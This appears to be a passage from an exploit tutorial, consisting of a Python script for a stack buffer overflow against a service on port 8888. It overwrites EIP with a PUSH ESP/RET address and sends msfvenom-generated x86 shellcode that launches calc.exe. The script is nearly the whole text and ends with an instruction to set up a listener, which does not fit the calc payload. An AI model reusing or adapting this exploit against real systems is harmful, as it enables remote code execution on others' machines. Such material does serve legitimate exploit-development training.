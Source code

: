 ```python
import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload =  b""
payload += b"\xbe\x9a\x84\xd2\x91\xdb\xdb\xd9\x74\x24\xf4"
payload += b"\x5f\x29\xc9\xb1\x52\x31\x77\x12\x03\x77\x12"
payload += b"\x83\x5d\x80\x30\x64\x9d\x61\x36\x87\x5d\x72"
payload += b"\x57\x01\xb8\x43\x57\x75\xc9\xf4\x67\xfd\x9f"
payload += b"\xf8\x0c\x53\x0b\x8a\x61\x7c\x3c\x3b\xcf\x5a"
payload += b"\x73\xbc\x7c\x9e\x12\x3e\x7f\xf3\xf4\x7f\xb0"
payload += b"\x06\xf5\xb8\xad\xeb\xa7\x11\xb9\x5e\x57\x15"
payload += b"\xf7\x62\xdc\x65\x19\xe3\x01\x3d\x18\xc2\x94"
payload += b"\x35\x43\xc4\x17\x99\xff\x4d\x0f\xfe\x3a\x07"
payload += b"\xa4\x34\xb0\x96\x6c\x05\x39\x34\x51\xa9\xc8"
payload += b"\x44\x96\x0e\x33\x33\xee\x6c\xce\x44\x35\x0e"
payload += b"\x14\xc0\xad\xa8\xdf\x72\x09\x48\x33\xe4\xda"
payload += b"\x46\xf8\x62\x84\x4a\xff\xa7\xbf\x77\x74\x46"
payload += b"\x6f\xfe\xce\x6d\xab\x5a\x94\x0c\xea\x06\x7b"
payload += b"\x30\xec\xe8\x24\x94\x67\x04\x30\xa5\x2a\x41"
payload += b"\xf5\x84\xd4\x91\x91\x9f\xa7\xa3\x3e\x34\x2f"
payload += b"\x88\xb7\x92\xa8\xef\xed\x63\x26\x0e\x0e\x94"
payload += b"\x6f\xd5\x5a\xc4\x07\xfc\xe2\x8f\xd7\x01\x37"
payload += b"\x1f\x87\xad\xe8\xe0\x77\x0e\x59\x89\x9d\x81"
payload += b"\x86\xa9\x9e\x4b\xaf\x40\x65\x1c\xda\x9e\x75"
payload += b"\xcc\xb2\x9c\x75\xf9\xf1\x28\x93\x6b\xe6\x7c"
payload += b"\x0c\x04\x9f\x24\xc6\xb5\x60\xf3\xa3\xf6\xeb"
payload += b"\xf0\x54\xb8\x1b\x7c\x46\x2d\xec\xcb\x34\xf8"
payload += b"\xf3\xe1\x50\x66\x61\x6e\xa0\xe1\x9a\x39\xf7"
payload += b"\xa6\x6d\x30\x9d\x5a\xd7\xea\x83\xa6\x81\xd5"
payload += b"\x07\x7d\x72\xdb\x86\xf0\xce\xff\x98\xcc\xcf"
payload += b"\xbb\xcc\x80\x99\x15\xba\x66\x70\xd4\x14\x31"
payload += b"\x2f\xbe\xf0\xc4\x03\x01\x86\xc8\x49\xf7\x66"
payload += b"\x78\x24\x4e\x99\xb5\xa0\x46\xe2\xab\x50\xa8"
payload += b"\x39\x68\x60\xe3\x63\xd9\xe9\xaa\xf6\x5b\x74"
payload += b"\x4d\x2d\x9f\x81\xce\xc7\x60\x76\xce\xa2\x65"
payload += b"\x32\x48\x5f\x14\x2b\x3d\x5f\x8b\x4c\x14"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```
Finally set up your listener and run your script
